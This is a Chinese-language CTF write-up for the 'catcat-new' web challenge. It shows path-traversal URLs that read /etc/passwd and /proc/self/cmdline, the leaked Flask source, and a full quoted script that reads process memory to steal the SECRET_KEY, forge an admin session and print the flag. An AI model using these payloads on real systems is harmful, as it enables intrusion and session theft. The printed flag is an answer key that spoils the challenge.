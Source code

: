 # catcat-new

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=9cc7514c-7c47-11ed-ab28-000c29bc20bf&task_category_id=3)

来到一个介绍猫的网站。每只猫的介绍文字可以点，比如第一只，点进去后会跳转到另一个界面，url非常可疑：

- http://61.147.171.105:60014/info?file=ForestCat.txt

判断可能有任意文件读取漏洞。如果一时半会不知道要读取什么，就先读linux系统都有的文件。翻出我的[笔记](../../../../笔记/Web/Web笔记.md)，之前做题时在第43条记了，第一个是/etc/passwd，好的就是你了。

- http://61.147.171.105:60014/info?file=../../../../../etc/passwd

发现读取成功，确定有漏洞。下一步是读取网站源码。在info界面抓个包，发现服务器是python。既然是python，当前进程肯定是由`python xxx.py`启动的，只要能知道当时的命令是什么，就能获取xxx.py的名字，进而读取源码。linux确实有这么个文件，`/proc/self/cmdline`，用于获取当前启动进程的完整命令。

- http://61.147.171.105:60014/info?file=../../../../../proc/self/cmdline
> b'python\x00app.py\x00'

如果是做题多的大佬估计都不用这一步，因为大部分的python网站脚本名都是app.py。路径我不太清楚，不过肯定不是当前路径，那就往上看，正好在上一个目录。

- http://61.147.171.105:60014/info?file=../app.py

```python
import os
import uuid
from flask import Flask, request, session, render_template, Markup
from cat import cat

flag = ""
app = Flask(
 __name__,
 static_url_path='/', 
 static_folder='static' 
)
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh" #SECRET_KEY为uuid替换-为空后加上*abcdefgh。这里刻意的*abcdefgh是在提示我们secret key的格式
if os.path.isfile("/flag"):
 flag = cat("/flag")
 os.remove("/flag") #这里读取flag后删掉了flag，防止之前任意文件读取出非预期解

@app.route('/', methods=['GET'])
def index():
 detailtxt = os.listdir('./details/')
 cats_list = []
 for i in detailtxt:
 cats_list.append(i[:i.index('.')])
 
 return render_template("index.html", cats_list=cats_list, cat=cat)



@app.route('/info', methods=["GET", 'POST'])
def info():
 filename = "./details/" + request.args.get('file', "")
 start = request.args.get('start', "0")
 end = request.args.get('end', "0")
 name = request.args.get('file', "")[:request.args.get('file', "").index('.')]
 
 return render_template("detail.html", catname=name, info=cat(filename, start, end)) #cat是上面引用进来的函数
 


@app.route('/admin', methods=["GET"])
def admin_can_list_root():
 if session.get('admin') == 1: #session为admin就能得到flag，此处需要session伪造
 return flag
 else:
 session['admin'] = 0
 return "NoNoNo"



if __name__ == '__main__':
 app.run(host='0.0.0.0', debug=False, port=5637)
```

session伪造的必要条件是获取SECRET_KEY。到这里我不会了，后面看了[wp](https://xia0ji233.pro/2023/01/01/Nepnep-CatCTF2022/#Cat-cat%F0%9F%98%BC)了解到了新的知识点——python存储对象的位置在堆上。app是个Flask对象，而secret key在app.config['SECRET_KEY']，读取/proc/self/mem得到进程的内存内容，进而获取到SECRET_KEY。不过读/proc/self/mem前要注意，/proc/self/mem内容较多而且存在不可读写部分，直接读取会导致程序崩溃，因此需要搭配/proc/self/maps获取堆栈分布，结合maps的映射信息来确定读的偏移值（参考[此处](https://www.jianshu.com/p/3fba2e5b1e17))。这里直接放出大佬读取/proc/self/maps+/proc/self/mem+SECRET_KEY的脚本，可一键获取flag。

```python
# coding=utf-8
#----------------------------------
###################################
#Edited by lx56@blog.lxscloud.top
###################################
#----------------------------------
import requests
import re
import ast, sys
from abc import ABC
from flask.sessions import SecureCookieSessionInterface


url = "http://61.147.171.105:60014/"

#此程序只能运行于Python3以上
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')

#----------------session 伪造,单独用也可以考虑这个库： https://github.com/noraj/flask-session-cookie-manager ----------------
class MockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key
        
class FSCM(ABC):
        def encode(secret_key, session_cookie_structure):
            #Encode a Flask session cookie
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
                raise e
#-------------------------------------------



#由/proc/self/maps获取可读写的内存地址，再根据这些地址读取/proc/self/mem来获取secret key
s_key = ""
bypass = "../.."
#请求file路由进行读取
map_list = requests.get(url + f"info?file={bypass}/proc/self/maps")
map_list = map_list.text.split("\\n")
for i in map_list:
    #匹配指定格式的地址
    map_addr = re.match(r"([a-z0-9]+)-([a-z0-9]+) rw", i)
    if map_addr:
        start = int(map_addr.group(1), 16)
        end = int(map_addr.group(2), 16)
        print("Found rw addr:", start, "-", end)
        
        #设置起始和结束位置并读取/proc/self/mem
        res = requests.get(f"{url}/info?file={bypass}/proc/self/mem&start={start}&end={end}")
        #用到了之前特定的SECRET_KEY格式。如果发现*abcdefgh存在其中，说明成功泄露secretkey
        if "*abcdefgh" in res.text:
            #正则匹配，本题secret key格式为32个小写字母或数字，再加上*abcdefgh
            secret_key = re.findall("[a-z0-9]{32}\*abcdefgh", res.text)
            if secret_key:
                print("Secret Key:", secret_key[0])
                s_key = secret_key[0]
                break

#设置session中admin的值为1
data = '{"admin":1}'
#伪造session
headers = {
    "Cookie" : "session=" + FSCM.encode(s_key, data)
}
#请求admin路由
try:
    flag = requests.get(url + "admin", headers=headers)
    print("Flag is", flag.text)
except:
    print("Something error")
```

## Flag
> catctf{Catch_the_c4t_HaHa}